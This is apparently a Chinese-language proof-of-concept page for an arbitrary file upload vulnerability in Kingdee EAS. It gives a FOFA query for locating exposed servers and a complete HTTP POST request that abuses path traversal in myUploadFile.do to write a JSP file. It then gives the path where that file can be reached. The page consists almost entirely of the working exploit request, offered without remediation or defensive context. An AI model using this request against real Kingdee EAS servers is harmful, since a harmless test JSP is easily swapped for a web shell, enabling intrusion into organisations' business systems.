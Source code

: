 # 金蝶EAS myUploadFile任意文件上传


## 金蝶EAS myUploadFile任意文件上传
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Lc4ILVKo1g9cSbQc2icEW80fDeYIQ78YeAVSBibGsibyzialJJWOTNHIVt7dpyC4CDibfPeaI3Apn7jn4zHwhPpsWfg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

## fofa
```
app="Kingdee-EAS"
```

## POC
```
POST /easportal/buffalo/%2e%2e/cm/myUploadFile.do HTTP/1.1
Host: 127.0.0.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarySq4lDnabv8CwHfvx
Content-Length: 205

------WebKitFormBoundarySq4lDnabv8CwHfvx
Content-Disposition: form-data; name="myFile"; filename="test.jsp"
Content-Type: text/html

<%out.println("test");%>
------WebKitFormBoundarySq4lDnabv8CwHfvx--
```

jsp路径：

http://127.0.0.1/easportal/buffalo/../test.jsp

